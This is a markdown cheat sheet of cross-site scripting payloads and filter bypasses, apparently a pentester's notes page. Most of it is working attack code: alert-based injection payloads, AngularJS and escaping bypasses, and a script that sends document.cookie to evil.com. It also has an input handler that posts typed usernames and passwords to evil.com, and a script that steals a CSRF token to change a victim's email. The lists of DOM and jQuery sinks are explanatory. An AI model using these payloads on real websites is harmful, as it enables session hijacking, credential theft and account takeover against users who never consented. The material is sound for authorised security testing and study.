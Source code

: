 ```yaml
---
title: XSS - Cross Site Scripting
description: XSS cheatsheets, payloads and tricks.
---
```


# XSS

## Attack

### Payloads

```html
<sCRipT>alert()</scRipt>
<a href="javascript:alert()"></a>
<img src=x onerror="alert()">

<svg><animatetransform onbegin=alert(1)>

<iframe src='https://example.com/?search="><body onresize=print()>' onload=this.style.width='100px'>

domain.com/?search=<div id=anchor onfocus=alert(document.cookie) tabindex=1>#anchor
```

More payloads on [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### HTML events and tags

Lists :

- [all-html-events.txt](/assets/txt/all-html-events.txt)
- [all-html-tags.txt](/assets/txt/all-html-tags.txt)

> Source [www.w3schools.com - event](https://www.w3schools.com/tags/ref_eventattributes.asp) and [www.w3schools.com - tags](https://www.w3schools.com/TAGs/).

### DOM XSS

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()  
document.writeln()  
document.domain  
element.innerHTML  
element.outerHTML  
element.insertAdjacentHTML  
element.onevent  
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()  
after()  
append()  
animate()  
insertAfter()  
insertBefore()  
before()  
html()  
prepend()  
replaceAll()  
replaceWith()  
wrap()  
wrapInner()  
wrapAll()  
has()  
constructor()  
init()  
index()  
jQuery.parseHTML()  
$.parseHTML()
```

> Source [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/dom-based).

## Bypass

### Replace function

The `replace` function only replace the first occurence.

```js
> "<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;img src=x onerror='alert()'>"


> "<<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;<img src=x onerror='alert()'>"
```

### jQuery's $() selector

- `<iframe src="https://example.com/" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

### AngularJS ng-app

- `{{$on.constructor('alert(1)')()}}`

### Send cookie via POST request

```html
<script>
fetch('https://evil.com',{method:'POST',mode:'no-cors',body:document.cookie});
</script>
```

### Capture passwords (keylogger)

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('https://evil.com',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">
```

### URL Reflection + Bind Key

`/?%27accesskey=%27x%27onclick=%27alert()`, then `Alt+x` on Brave

### HTML entity escape

- `http://example&apos;,alert(),&apos;` => `('http://example',alert(),'...')'`

### Change CSRF

```html
<script>
let req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('GET', '/my-account', true);
req.send();

function handleResponse() {
    let csrfToken = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    fetch("/my-account/change-email", {
        "body": "email=toto@toto.com&csrf=" + csrfToken,
        "method": "POST"
    });
};
</script>
```

### Escape 

`'` and `\`

```html
</script><script>alert()</script>
```

`'` with `<` filtered

```html
\';alert()//
&apos;-alert(1)-&apos;
```

XSS inside backticks

```html
${alert(document.domain)}
```